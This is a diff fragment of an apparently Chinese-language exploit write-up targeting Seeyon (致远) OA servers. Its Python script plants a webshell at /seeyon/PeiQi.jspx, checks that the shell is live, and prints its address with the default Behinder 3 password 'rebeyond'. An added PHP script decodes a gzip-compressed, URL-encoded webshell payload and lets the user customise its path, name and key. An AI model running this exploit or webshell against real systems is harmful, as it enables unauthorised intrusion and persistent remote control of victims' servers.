     response = requests.post(url=vuln_url_2, headers=headers, data=data, verify=False)
     test_webshell(target_url)
 
 
 def test_webshell(target_url):
-    webshell_url = target_url + "/seeyon/SeeyonUpdate1.jspx"
+    webshell_url = target_url + "/seeyon/PeiQi.jspx"
     headers = {
         "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
     }
     try:
         requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
         response = requests.get(url=webshell_url, timeout=10, verify=False, headers=headers)
-        print("\033[32m[o] 正在请求 : {}/seeyon/SeeyonUpdate1.jspx\033[0m".format(target_url))
+        print("\033[32m[o] 正在请求 : {}/seeyon/PeiQi.jspx\033[0m".format(target_url))
         if response.status_code == 200:
-            print("\033[32m[o] 目标 {} 成功上传 webshell : {}/seeyon/SeeyonUpdate1.jspx\033[0m".format(target_url,target_url))
+            print("\033[32m[o] 目标 {} 成功上传 webshell : {}/seeyon/PeiQi.jspx\033[0m".format(target_url,target_url))
+            print("\033[32m[o] webshell地址：{}/seeyon/PeiQi.jspx \033[0m".format(target_url))
+            print("\033[32m[o] 冰蝎3默认马 pass ：rebeyond \033[0m".format(target_url))
         else:
             print("\033[31m[x] 目标漏洞无法利用，写入失败 \033[0m")
             sys.exit(0)
@@ -146,29 +148,35 @@ def test_webshell(target_url):
         print("\033[31m[x] 目标漏洞无法利用，写入失败 {} \033[0m".format(e))
         sys.exit(0)
 
-def test_webshell_ok(target_url):
-    webshell_url = target_url + "/seeyon/SeeyonUpdate1.jspx"
-    headers = {
-        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
-    }
-    try:
-        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
-        response = requests.get(url=webshell_url, timeout=10, verify=False, headers=headers)
-        if response.status_code == 200:
-            print("\033[32m[o] 目标 {} 可能已经被其他人成功上传 webshell \033[0m".format(target_url))
-            print("\033[32m[o] webshell地址：{}/seeyon/SeeyonUpdate1.jspx \033[0m".format(target_url))
-            print("\033[32m[o] 冰蝎3默认马 pass ：rebeyond \033[0m".format(target_url))
-        else:
-            pass
-
-    except Exception as e:
-        print("\033[31m[x] 请求报错 \033[0m".format(e))
-
 if __name__ == '__main__':
     title()
     target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
-    test_webshell_ok(target_url)
     POC_1(target_url)
 ```
 
 ![](image/zhiyuan-9.png)
+
+文件编码脚本, 自行进行自定义调试
+
+```PHP
+<?php 
+$webshell = urldecode("%1F%C2%8B%08%00%00%00%00%00%00%0AuTK%C2%93%C2%A2H%10%3E%C3%AF%C3%BE%0A%C3%82%C2%8Bv%C3%B4%C2%8C%C2%8D+c%C2%BB%13%7Bh_%C2%88%28%2A%28%C2%AF%C2%8D%3D%40%15Ba%15%C2%B0%C3%B2%10%C3%AC%C2%98%C3%BF%C2%BE%05%C3%98%C3%93%3D%C2%B1%C2%BDu%C2%A9%C3%8C%C2%AC%C3%8C%C2%AF%C3%B2%C3%BD%C3%97k%C3%B7%14_H%C2%8E%C2%9DC%C2%95x%C3%9D%3F%C2%98%C3%81%17%C3%A6M%C2%A28%C2%A4%C2%96t3%2F%C3%8D%C2%BA%C3%AF%C3%A2y%C2%99%5C%C2%BC4EqT%3Fj%C3%99%05E%3E%C2%938Y%C3%80%C3%BC%C3%89t%C3%BA%C3%BD%C2%A7%C2%AB%C3%A7%3AI%C2%92%3E%C2%A5%C2%9EW%C3%85%C3%91S%C3%A7%C3%BB%C3%AFL%7B%7E%0B%C2%9D%C3%82%C3%A9%C2%A3%C2%B8%C2%BF%C2%A3%26%C2%99qA%C2%99wa%C2%92w%C2%9A%C2%A3%00%C2%91we%3EQ%C3%AB%C3%95%C3%B8%C2%8F%C2%9D%C2%9D%C2%87%C3%B6%C2%A8%1F%C2%A6I%C3%99y%C3%B8%09%C3%8B%C3%9C%5DH%03%0F%C3%A3%C3%9A%C2%87%C2%9D%C2%98%C3%9C%C3%80%2C%C2%A9%5Cn%C3%8CJ%C3%8B+sE%C3%A1%C2%B6%25%C2%B5%C2%8CE%C3%8ERe%C3%81%2C.%C3%96%5C%12%402%C3%8F%01%C2%AF%C3%A7k%C2%A2%14%C2%AE6%C2%96%C2%8F%C2%83%C2%97%C3%A2%28.%22%5B%C2%93%7CH%C3%B4%0Ap%C2%B8pC%16m%C2%B4a%25%C2%85%C3%83g%27R%C2%AE%5B%C2%A2%26%C2%80%C3%A8%21%141gk%C3%82%C3%952+%C2%96D%C2%9C%01q%5C%C3%81%1A%C2%9F%2C8K%13%06%C3%B4%3D%5D%C2%A38mx%C3%93%C3%8F-%7E%25%C2%80%C2%A5Z%7C%2A%C2%A3%C2%B8%C2%B6%C2%B1%C3%89e%24%15%C2%BB%C2%B0%C3%BC%07%C3%B0%2F%C3%9FlQ%0F%5DqQY%C2%A6%C2%9A%C2%B8%C3%9C%C3%B0Q%12%C2%95%C3%942%C2%95%C2%9B%C2%B48%C3%BA%C2%B6%19%C2%B0%C2%B6%21%C2%9CA5%C2%99Q%C2%9D%1B%60%C3%8B%C3%822T%0C%C2%A2L%C2%97%C3%A7%C2%AD%C3%9EA%1C%07%14%C2%A3%C2%92%C3%84M%C3%A2%C3%B1%C3%8A%00PZ%C2%A6%C3%B4%C2%96%1F%5C%C2%A1%C2%B1J%1Dc%C3%A3%C3%AF%C2%B92%00%C3%BC%C3%86%C2%B7%C2%AB%00y%C2%A6%C2%8A%C2%A5E%06-%C2%84G4%3E%16%C2%9A%C2%AB%5CZ%C2%B6vk%C2%A2b%C2%9B%C3%A0%C3%9C%3E%C2%B6%C3%98%C2%B2%28%C2%A5%C2%9Bi%C2%89%C3%96%C2%A4%C3%84.%C2%81%C2%AC3%3D%C2%8FN%26%C3%BBLsZ%C3%A7%C3%BDl%1B%C2%B5%C3%9E%2A%C2%A09%C2%A0%C3%B9%C2%BB%C3%A7-RB%40%C3%B0%15%C2%8A%25%C2%863%C3%A1%00%C2%97%C2%AB%C3%84%25%C3%80wn%2C%C2%B2%0F%C3%BB%C2%81%7D%C3%98T%5B%C3%83%C3%86V%C2%A8%C2%9F%C2%B7%07i%60%21i%048%C3%BD%C3%96%C3%94%00%09Wh%C2%AA%C2%86e%C2%94%03%5B%C3%B3%11%C3%94%C2%A4%C3%94%C2%A9%C3%8E%C2%A3%3D%C2%87%C2%AFN%1B%C3%A3%C3%B8%C2%8D%5E%13%C2%88%C3%A1%1C%C3%93%C2%BA%C2%AA%C2%81K%14%2COW%13U%C3%9F+%C3%B9%C2%90%C2%85k%1A%C2%83c%C3%AE%C3%A3%0D%2As%C3%9B%04%C3%BE%C2%91%C3%93%C3%83%3AV%C2%8D%C3%93%C2%85%23%3F%C3%81V%C3%A5%C3%87%1F%C3%BE%C2%8C%C3%AC_%C3%BFL%C3%A4JB%C2%B2%C3%96%C3%88%C2%A7u%C2%BE%40%C3%A5%27%C3%AB7%7C%C3%AD%3Cr%C2%89%C3%8E%C3%93%C3%BA%C3%84P%0C%12P5zm%7Dj%C2%BD%C3%86%C2%AF_k%23O%C3%8FT%0Eb%C2%AB%12%C3%8E.k%C3%93%7C%2CRY%140%C2%AC%267h%0Cs%C3%97%C3%807%C3%BA6%C3%9D%C3%AB%C3%8AB%09%C3%959%C3%8Dkq%C2%B7%C3%8B%C2%9B%C3%BE%C3%A0T%C2%BC%C2%8Ftb%C3%93%5E%C2%95%C2%97%2B%0CL%1D%03%7E%C2%9F%C3%9B%C2%9C%C3%8E%1E%C2%89%C3%BE%C3%B6G%0Ej%C2%9AN%C2%ADK%C2%8E1%C3%B53%C2%A11%C3%90%C3%B8%C3%A1%C3%8A%C2%8D%14%C3%962%C2%84%C2%90%C3%86G%C3%BD%C3%90Kh%2CRP%05MO%C3%AF%C2%B9q%0EE%7D%08imw%C3%93q%C3%93%C2%93%C2%80S%2A%C3%87%C2%9C%C2%B0%C2%AE%C2%A8%C2%B3%C2%BB%C3%B0Z%C2%B4u%5D%15.%C2%BF%7F%7C%C2%9Fr%26%C3%8D%C2%A3%3EA%29%C3%A8O%5E%C2%B4%C3%B9%C2%B7%C3%A1%C3%8C%031%C2%A4%C2%83%0E%C3%AFw%3B%C3%A3%C2%9F%2B%C3%B5%C3%BE%3B%C3%95%C2%AD%C3%99%C2%9Dim%5B%C2%A6w%07%C3%AC%C2%B7%C3%B7%24%3F%C2%9D%28%40%C2%B3%04%1E%C2%BEt%C2%8E%C2%87%C3%85%C3%97%C3%A7%C2%8FK%C3%A2%C3%A3%C2%9E%C3%A97%0C%C2%8Ez%1F%C3%81%C3%BFO%17%C3%A08%C3%B5%C2%A8c%3F%C2%BE%C3%97%7B%C2%90%12%C3%90%3B1i%C3%A6d%080eY%C3%B6%1E%5E%C2%BB%3F%C3%A8r%C2%A4%0B%C3%B2%C2%B5%C2%BE%C2%B3K%C3%AEu%C3%BF%C3%BE%17%1CR%C2%AD%17W%05%00%00");
+$webshell = iconv("UTF-8","ISO-8859-1",$webshell);
+$webshell = gzdecode($webshell);
+
+/* 自行更改脚本自定义上传位置,webshell名字,冰蝎密码 */
+$webshell = str_replace("../webapps/seeyon/","../webapps/seeyon/",$webshell);
+$webshell = str_replace("PeiQi.jspx","PeiQi.jspx",$webshell);
+$webshell = str_replace("e45e329feb5d925b","e45e329feb5d925b",$webshell);
+
+$webshell = gzencode($webshell);
+$webshell = iconv("ISO-8859-1","UTF-8" ,$webshell);
+$webshell = urlencode("$webshell");
+echo $webshell;
+
+?>
+
+
+```
+
+![](image/zhiyuan-10.png)
